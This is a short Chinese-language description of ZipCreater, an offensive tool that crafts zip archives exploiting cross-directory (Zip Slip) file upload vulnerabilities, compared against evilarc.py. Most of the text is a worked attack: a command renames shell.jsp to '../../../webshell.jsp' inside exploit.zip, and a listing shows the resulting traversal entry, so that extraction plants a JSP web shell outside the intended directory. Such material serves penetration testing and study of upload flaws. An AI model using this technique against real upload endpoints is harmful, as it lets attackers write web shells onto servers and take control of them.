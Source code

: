 [ZipCreater](https://github.com/Rvn0xsy/zipcreater)主要应用于跨目录的文件上传漏洞的利用，它能够快速进行压缩包生成，[evilarc.py](https://github.com/ptoomey3/evilarc/blob/master/evilarc.py)不支持修改已有的压缩包，但ZipCreater可以。

假设/tmp/payload文件夹内的文件列表如下：

```java
zipEntry.getName() =>1.txt
zipEntry.getName() =>2.txt
zipEntry.getName() =>shell.jsp
```

使用ZipCreater可以生成跨目录的文件名：

```bash
$ zipcreater -source /tmp/payload/ -dest /tmp/exploit.zip -filename shell.jsp -path ../../../webshell.jsp'
```

exploit.zip内容如下：

```java
zipEntry.getName() => 1.txt
zipEntry.getName() => 2.txt
zipEntry.getName() => ../../../webshell.jsp
```

